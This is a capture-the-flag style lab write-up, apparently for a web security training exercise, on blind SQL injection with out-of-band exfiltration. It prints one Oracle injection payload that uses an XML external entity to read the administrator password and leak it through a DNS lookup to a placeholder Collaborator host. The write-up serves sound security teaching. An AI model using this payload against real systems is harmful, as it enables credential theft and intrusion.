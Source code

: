 # Lab: Blind SQL injection with out-of-band data exfiltration
This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user.

## Disclaimer
**This room requires Burp Collaborator, which is only usably with Burp Suite Professional.**

So for me this lab is not solvable. But I will explain the idea behind the attack and the payload you could use.

## Solution
The basics of the vulnerability can be found in the writeup of the privious lab ([Blind SQL injection with out-of-band interaction](Blind_SQL_injection_with_out-of-band_interaction.md)).

The task of this lab, is to level this up and actually get some data over this DNS request. For that we could use the following query:
```
TrackingId=' || (SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.BURP-COLLABORATOR-SUBDOMAIN.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual) ||'
```

It is pretty much the same like before. The statement creates a DNS request to the collaborator. But this time there is a nested query in the subdomain of the collaborator: `SELECT password FROM users WHERE username='administrator'`

This nested query will be executed and the DNS request will contain a subdomain consisting of the data from the answer of this SQL query.

In Burp Collaborator we would see the DNS request after the following scheme: `PASSWORD.BURP-COLLABORATOR-SUBDOMAIN.burpcollaborator.net`

With the password we could login as administrator and the lab would be solved.
